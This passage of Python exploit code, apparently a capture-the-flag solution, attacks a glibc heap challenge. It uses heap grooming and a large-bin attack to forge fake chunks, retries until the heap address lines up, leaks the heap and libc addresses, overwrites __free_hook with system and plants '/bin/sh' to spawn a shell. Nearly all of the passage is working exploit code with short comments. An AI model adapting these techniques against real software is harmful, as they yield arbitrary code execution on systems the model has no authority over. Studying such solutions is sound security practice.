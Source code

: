 ```python
        alloc(0x18)     #4
        alloc(0x4d8)    #8
        free(4)
        free(5)         #backward consolidate
        alloc(0x48)     #4

        free(2)
        alloc(0x4e8)    #2
        free(2)

        storage = 0x13370000 + 0x800
        fake_chunk = storage - 0x20

        p1 = p64(0)*2 + p64(0) + p64(0x4f1) #size
        p1 += p64(0) + p64(fake_chunk)      #bk
        update(7, p1)

        p2 = p64(0)*4 + p64(0) + p64(0x4e1) #size
        p2 += p64(0) + p64(fake_chunk+8)    #bk, for creating the "bk" of the faked chunk to avoid crashing when unlinking from unsorted bin
        p2 += p64(0) + p64(fake_chunk-0x18-5)   #bk_nextsize, for creating the "size" of the faked chunk, using misalignment tricks
        update(8, p2)

        try:
            # if the heap address starts with "0x56", you win
            alloc(0x48)     #2
        except EOFError:
            # otherwise crash and try again
            r.close()
            continue
        # gdb.attach(r, 'bin\n')
        # pause()
        payload = p64(0)*2 + p64(0) + p64(0) + p64(0) + p64(0x13377331) + p64(storage)
        update(2, payload)

        payload = p64(0) + p64(0) + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(storage-0x20+3) + p64(8)
        update(0, payload)

        leak = view(1)
        heap = u64(leak)
        print ('heap: %x' % heap)
        # gdb.attach(r, 'bin\n')
        # pause()

        payload = p64(0) + p64(0) + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(heap+0x10) + p64(8)
        update(0, payload)

        leak = view(1)
        unsorted_bin = u64(leak)
        main_arena = unsorted_bin - 88
        libc_base = main_arena - 0x3c4b20
        print ('libc_base: %x' % libc_base)
        libc_system = libc_base + libc.symbols['system']
        free_hook = libc_base + libc.symbols['__free_hook']

        payload = p64(0) + p64(0) + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(free_hook) + p64(0x100) + p64(storage+0x50) + p64(0x100) + '/bin/sh\0'
        update(0, payload)
        update(1, p64(libc_system))

```